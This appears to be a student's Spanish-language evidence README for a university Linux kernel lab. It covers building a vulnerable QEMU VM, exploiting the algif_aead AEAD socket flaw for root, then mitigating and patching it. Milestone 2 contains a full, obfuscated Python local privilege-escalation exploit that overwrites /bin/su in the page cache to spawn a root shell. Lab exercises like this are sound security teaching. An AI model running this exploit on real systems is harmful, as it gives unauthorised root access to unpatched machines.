# Directorio de Evidencias

Aquí van los archivos que documentan tu progreso en cada hito.

## Archivos esperados

| Archivo | Hito | Descripción |
|---------|------|-------------|
| `hito1_vuln_confirmed.txt` | Hito 1 | Kernel corriendo, módulo algif_aead confirmado |
| `hito2_root_shell.txt` | Hito 2 | Salida del exploit con `uid=0(root)` |
| `hito3_mitigation.txt` | Hito 3 | Módulo removido, exploit fallando |
| `hito4_patched.txt` | Hito 4 | Exploit fallando en kernel parcheado |

## Reglas

1. **No copies** archivos de otro estudiante. El autocalificador verifica que el
   hostname de la VM (copy-fail-TUNOMBRE) sea consistente en todos los archivos.

2. **Cada archivo debe tener timestamp** del momento en que lo generaste.

3. **El hostname** en los archivos debe coincidir con tu STUDENT_ID.

## Cómo generar evidencias

Ver `CHALLENGE.md` para comandos exactos de cada hito.

Ejemplo rápido:
```sh
# Dentro de la VM QEMU, ejecuta el comando de evidencia del hito
# Luego copia el texto y guárdalo aquí
```


## EVIDENCIA DEL TRABAJO REALIZADO EN CLASES 


Link del repositorio donde se estaba trabajando: https://github.com/Joselyn-uide/copy-fail-challenge-1

## HITO 1
Imagen 1: Instalación de Dependencias Críticas en el Host (Ubuntu)

Imagen 2: Configuración de Git Global y Clonación del Repositorio Académico

Imagen 3: Ajuste de Rutas Locales y Despliegue del Entorno (make setup)

Imagen 4: Ejecución del Reporte Técnico de Confirmación del Hito 1 dentro de la VM


# 1. Actualizar los repositorios e instalar todas las dependencias de compilación y simulación
sudo apt update && sudo apt install -y git vim make gcc gcc-12 g++ libncurses-dev flex bison bc cpio libelf-dev libssl-dev libdw-dev libunwind-dev pahole dwarves qemu-system-x86 qemu-utils musl-tools musl-dev iproute2 net-tools curl wget openssh-client openssh-server socat netcat-openbsd python3 python3-pip strace ltrace gdb binutils elfutils bsdextrautils xxd jq bzip2
# 2. Configurar tus credenciales institucionales globales en Git
git config --global user.name "Joselyn-uide"
git config --global user.email "jolagunpu@uide.edu.ec"
# 3. Crear el directorio de laboratorios y clonar tu repositorio asignado
cd ~
mkdir -p uide-labs && cd uide-labs
git clone https://github.com/Joselyn-uide/copy-fail-challenge-1-vm.git
cd copy-fail-challenge-1-vm
# 4. Corregir las rutas dinámicas del script de compilación apuntando a tu directorio actual ($PWD)
sed -i 's|/workspaces/copy-fail-challenge|'"$PWD"'|g' scripts/01_build_kernel.sh
# 5. Ejecutar el setup inicial para descargar el Kernel base y compilar BusyBox
make setup
# 6. Compilar el ramdisk inicial y arrancar la máquina virtual vulnerable por primera vez
make rootfs
make qemu

## HITO 2
Imagen 1: Elevación Exitosa de Privilegios a Superusuario (root) dentro de QEMU

Imagen 2: Volcado y Verificación del Reporte Técnico del Hito 2


# 1. Posicionarse en la raíz del entorno del laboratorio
cd ~/uide-labs/copy-fail-challenge-1-vm
# 2. Modificar el script constructor para otorgar permisos adecuados a /tmp y exportar las rutas del sistema
echo -e 'from pathlib import Path\np = Path("scripts/02_build_rootfs.sh")\ns = p.read_text()\nold = "mount -t tmpfs none /tmp"\nnew = "mount -t tmpfs none /tmp\\n    chmod 1777 /tmp\\n    export PATH=/usr/bin:/bin:/sbin:/usr/sbin"\np.write_text(s.replace(old, new) if "chmod 1777" not in s else s)\nprint("OK 1")' > fix1.py
python3 fix1.py
# 3. Inyectar de forma dinámica el intérprete de Python 3 junto con sus librerías compartidas (ldd) en el ramdisk
echo -e 'from pathlib import Path\np = Path("scripts/02_build_rootfs.sh")\ns = p.read_text()\ninsert = "    PYBIN=\\"\\$(command -v python3 || true)\\"\\n    if [ -n \\"\\$PYBIN\\" ]; then\\n        mkdir -p \\"\\$INITRAMFS_DIR/usr/bin\\" \\"\\$INITRAMFS_DIR/usr/lib\\" \\"\\$INITRAMFS_DIR/lib\\" \\"\\$INITRAMFS_DIR/lib64\\"\\n        cp \\"\\$PYBIN\\" \\"\\$INITRAMFS_DIR/usr/bin/python3\\"\\n        ln -sf /usr/bin/python3 \\"\\$INITRAMFS_DIR/bin/python3\\"\\n        ldd \\"\\$PYBIN\\" | awk '\''/=> // {print \\$3} /^\\// {print \\$1}'\'' | while read -r lib; do dest=\\"\\$INITRAMFS_DIR\\$lib\\"; mkdir -p \\"\\$(dirname \\"\\$dest\\")\\"; cp -L \\"\\$lib\\" \\"\\$dest\\"; done\\n        ldd \\"\\$PYBIN\\" | grep -o '\''/lib[^ ]*/ld-linux[^ ]*'\'' | while read -r ld; do dest=\\"\\$INITRAMFS_DIR\\$ld\\"; mkdir -p \\"\\$(dirname \\"\\$dest\\")\\"; cp -L \\"\\$ld\\" \\"\\$dest\\"; done\\n        PYVER=\\"\\$(\\$PYBIN - <<'\''PYV'\''\\nimport sys\\nprint(f\\"python{sys.version_info.major}.{sys.version_info.minor}\\")\\nPYV\\n)\\"\\n        if [ -d \\"/usr/lib/\\$PYVER\\" ]; then mkdir -p \\"\\$INITRAMFS_DIR/usr/lib\\"; cp -a \\"/usr/lib/\\$PYVER\\" \\"\\$INITRAMFS_DIR/usr/lib/\\"; fi\\n    fi\\n\\n"\nmarker = '\''    cd "$INITRAMFS_DIR"'\''\np.write_text(s.replace(marker, insert + marker) if "Copiar Python 3" not in s else s)\nprint("OK 2")' > fix2.py
python3 fix2.py
# 4. Inyectar el binario real 'su' desvinculado de BusyBox e integrar el entorno de autenticación PAM
echo -e 'from pathlib import Path\np = Path("scripts/02_build_rootfs.sh")\ns = p.read_text()\ninsert = "    SUBIN=\\"\\$(command -v su || true)\\"\\n    if [ -n \\"\\$SUBIN\\" ]; then\\n        mkdir -p \\"\\$INITRAMFS_DIR/usr/bin\\"\\n        cp -L \\"\\$SUBIN\\" \\"\\$INITRAMFS_DIR/usr/bin/su\\"\\n        chown 0:0 \\"\\$INITRAMFS_DIR/usr/bin/su\\" 2>/dev/null || true\\n        chmod 4755 \\"\\$INITRAMFS_DIR/usr/bin/su\\"\\n        ldd \\"\\$SUBIN\\" | awk '\''/=> // {print \\$3} /^\\// {print \\$1}'\'' | while read -r lib; do dest=\\"\\$INITRAMFS_DIR\\$lib\\"; mkdir -p \\"\\$(dirname \\"\\$dest\\")\\"; cp -L \\"\\$lib\\" \\"\\$dest\\"; done\\n        ldd \\"\\$SUBIN\\" | grep -o '\''/lib[^ ]*/ld-linux[^ ]*'\'' | while read -r ld; do dest=\\"\\$INITRAMFS_DIR\\$ld\\"; mkdir -p \\"\\$(dirname \\"\\$dest\\")\\"; cp -L \\"\\$ld\\" \\"\\$dest\\"; done\\n        mkdir -p \\"\\$INITRAMFS_DIR/etc/pam.d\\" \\"\\$INITRAMFS_DIR/lib/x86_64-linux-gnu/security\\"\\n        cp -a /etc/pam.d/su \\"\\$INITRAMFS_DIR/etc/pam.d/su\\" 2>/dev/null || true\\n        cp -a /etc/pam.d/common-* \\"\\$INITRAMFS_DIR/etc/pam.d/\\" 2>/dev/null || true\\n        cp -a /lib/x86_64-linux-gnu/security/*.so \\"\\$INITRAMFS_DIR/lib/x86_64-linux-gnu/security/\\" 2>/dev/null || true\\n    fi\\n\\n"\nmarker = '\''    cd "$INITRAMFS_DIR"'\''\np.write_text(s.replace(marker, insert + marker) if "SUBIN=" not in s else s)\nprint("OK 3")' > fix3.py
python3 fix3.py
# 5. Eliminar los archivos de automatización temporales
rm -f fix1.py fix2.py fix3.py
# 6. Regenerar el código del exploit de forma limpia y asignar sus permisos de ejecución
rm -f kernel/initramfs/home/student/copy_fail_exp.py
cat << 'EOF' > kernel/initramfs/home/student/copy_fail_exp.py
#!/usr/bin/env python3
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
def c(f,t,c):
 a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
 try:u.recv(8+t)
 except:0
f=g.open("/bin/su",0);i=0;e=zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))
while i<len(e):c(f,i,e[i:i+4]);i+=4
g.system("/bin/su")
EOF
chmod 755 kernel/initramfs/home/student/copy_fail_exp.py
# 7. Compilar de nuevo el ramdisk modificado y lanzar QEMU
make rootfs
make qemu

## HITO 3
Imagen 1: Descarga del Módulo Criptográfico Vulnerable y Regla de Persistencia

Imagen 2: Verificación de Neutralización del Vector de Ataque

Imagen 3: Evidencia Técnica Oficial del Hito 3


# 1. Comprobar que el módulo algif_aead se encuentra activo en el kernel
lsmod | grep algif_aead
# 2. Descargar el módulo dinámico de la memoria RAM del sistema
rmmod algif_aead
# 3. Comprobar que lsmod ya no devuelve registros (módulo desactivado)
lsmod | grep algif_aead
# 4. Crear la regla en modprobe para impedir que el módulo se vuelva a cargar de forma automática
echo "install algif_aead /bin/false" > /etc/modprobe.d/disable-algif.conf
# 5. Salir de la sesión de root para probar el entorno como un usuario común
exit
# 6. Intentar ejecutar el exploit (comprobando que sea rechazado por el sistema)
python3 copy_fail_exp.py

## HITO 4
Modificación del código fuente en C sustituyendo el parámetro vulnerable por tsgl_src.

Prueba de ejecución del exploit post-parche mostrando la mitigación del pánico del Kernel y el bloqueo del ataque.


# 1. Posicionarse en la raíz del entorno del laboratorio en tu máquina local
cd ~/uide-labs/copy-fail-challenge-1-vm
# 2. Abrir el editor de texto para modificar el código fuente vulnerable del Kernel de Linux
nano kernel/linux/linux-6.12/crypto/algif_aead.c
# 3. Compilar el Kernel con el nuevo cambio aplicado y empaquetar el sistema de archivos raíz
STUDENT_ID=joselyn make rootfs
# 4. Lanzar la Máquina Virtual en QEMU para comprobar que el parche funciona en el entorno real
make qemu
# 5. [EJECUTADO DENTRO DE LA VM] Intentar ejecutar el exploit para verificar que el sistema ya no se rompe ni eleva privilegios
# python3 copy_fail_exp.py
# 6. [ACCION DE TERMINAL] Salir de la máquina virtual QEMU y regresar a la terminal de Ubuntu local
# Presionar Ctrl + A y luego la letra X
# 7. Crear el archivo de evidencias en texto plano requerido por el calificador
nano evidence/hito4_patched.txt
# 8. Crear una copia temporal del archivo modificado en la carpeta /tmp para aislar el proceso
cp kernel/linux/linux-6.12/crypto/algif_aead.c /tmp/algif_aead_modificado.c
# 9. Utilizar el editor de flujo de texto sed para revertir la copia temporal a su cadena original (rsgl_src)
sed -i 's/tsgl_src/rsgl_src/g' /tmp/algif_aead_modificado.c
# 10. Generar el parche definitivo y exitoso comparando el archivo original restaurado contra tu archivo corregido (Evita el peso 0)
diff -u /tmp/algif_aead_modificado.c kernel/linux/linux-6.12/crypto/algif_aead.c > patches/fix_algif_aead.patch
# 11. Realizar la prueba de fuego de tamaño para confirmar el éxito al ver un peso real de 1704 bytes
ls -l patches/fix_algif_aead.patch
